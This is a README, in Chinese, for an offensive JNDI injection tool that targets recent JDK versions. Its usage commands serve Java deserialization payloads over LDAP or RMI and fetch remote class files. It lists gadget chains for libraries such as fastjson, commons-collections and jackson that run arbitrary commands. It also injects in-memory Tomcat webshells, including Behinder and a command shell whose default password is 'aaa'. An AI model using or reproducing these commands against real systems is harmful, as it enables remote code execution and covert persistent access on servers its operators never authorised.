









## LDAPDeserialize-tool
一款针对高版本JDK的JNDI注入工具

### 依赖环境
JDK8

### 功能描述
#### 使用简述
```shell
反序列化文件方式：java -jar LDAPDeserialize-tool.jar -p 1389 -f D:/1.ser
反序列化base64方式：java -jar LDAPDeserialize-tool.jar -p 1389 -b base64数据
低版本动态请求class：
java -jar LDAPDeserialize-tool.jar -C http://127.0.0.1:8000/1.class
内置反序列化链：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc"
RMI反序列化打法：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c "calc" -rmi
RMI内置利用链遍历：
java -jar LDAPDeserialize-tool.jar -g execAll -c "calc" -rmi -ip 当前服务器公网ip
内存马注入：
java -jar LDAPDeserialize-tool.jar -p 1389 -g fastjson -c TomcatListenerBehinderByLei
```
#### 参数说明
```shell
 -b,--base64 <arg>   反序列化打法：序列化数据base64编码值
 -C,--class <arg>    低版本动态请求class实例化方式：class文件请求URL（需自己生成class文件，开启web服务）
 -c,--cmd <arg>      使用内置反序列化链时所要执行的命令，或指定所要打的内存马类型（存在空格时请使用双引号包裹）
 -f,--file <arg>     反序列化打法：序列化数据文件路径
 -g,--gadget <arg>   内置反序列化链
 -ip,--ip <arg>      VPS-IP地址
 -p,--port <arg>     监听的端口，默认1389
 -rmi,--rmi          rmi反序列化打法，可打JDK20+，只支持内置链打法
```
#### 支持说明
```
【目前支持的链,*号为支持JDK20+的链】
fastjson (依赖：1.2.49-1.2.83)

* CC6 (依赖：<= commons-collections 3.2.1)
CC4 (依赖：commons-collections4 4.0)
jackson (依赖：jackson-databind 2.10.0及以上版本)
jackson2 (稳定版，依赖：jackson-databind 2.10.0及以上版本 && <= spring aop 5.x)
groovy (依赖：groovy 2.3.9)
hibernate (依赖：hibernate 5.x && spring-context &&
                           reactor-core)[hibernate为ClassPathXmlApplication
                           Context执行，'-c'后跟上xml文件WEB地址]
CB192 (依赖：commons-beanutils 1.9.2 && commons-logging 1.2)
CB183 (依赖：commons-beanutils 1.8.3 && commons-logging 1.2)
rome (依赖：Rome 1.0)
execAll (利用链遍历，跑完一次要重新开脚本，依赖：tomcat)

【目前支持的内存马类型】
目前所有内存马默认密码均为：aaa
【Tomcat目前兼容Tomcat8,9】
TomcatListenerBehinder (冰蝎4.1默认马子)
TomcatListenerBehinderByLei (tomcat listener冰蝎马，打入改版的马子，需用改版的冰蝎ByLei)
TomcatListenerCMD (tomcat listener cmd马，http://ip:port/xx/zz?pass=aaa&cmd=whoami)
```

### 使用演示
#### 使用指定反序列化文件

使用ysoserial.jar生成序列化文件1.ser，读取该文件启动，客户端访问后将执行反序列化操作



#### 使用指定反序列化数据

使用base64编码后的序列化数据启动



#### 使用内置反序列化链



#### 使用RMI反序列化方式

当前RMI反序列化方式仅支持内置的反序列化链



#### 内存马注入
##### CMD马






##### 冰蝎马







### TODO
- 增加内存马类型及兼容性

### Star

[](https://star-history.com/#C3P0ooo/LDAPDeserialize-tool&Timeline)


